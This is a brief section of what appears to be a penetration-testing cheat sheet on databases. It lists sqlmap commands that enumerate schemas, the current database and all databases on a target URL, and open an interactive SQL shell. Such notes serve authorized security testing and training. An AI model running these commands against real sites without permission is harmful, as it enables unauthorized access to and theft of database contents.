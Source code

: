 # 03 - Databases

## 3.1 - Automated

- Enumerate database schema.

```
$ sqlmap -u <URL> --random-agent --schema
```

- Enumerate database schema yet exclude system databases.

```
$ sqlmap -u <URL> --random-agent --schema --exclude-sysdbs
```

- Enumerate current database.

```
$ sqlmap -u <URL> --random-agent --current-db
```

- Enumerate available databases.

```
$ sqlmap -u <URL> --random-agent --dbs
```

## 3.2 - Manual

```
$ sqlmap -u <URL> --random-agent --sql-shell

sql-shell> SHOW DATABASES()
```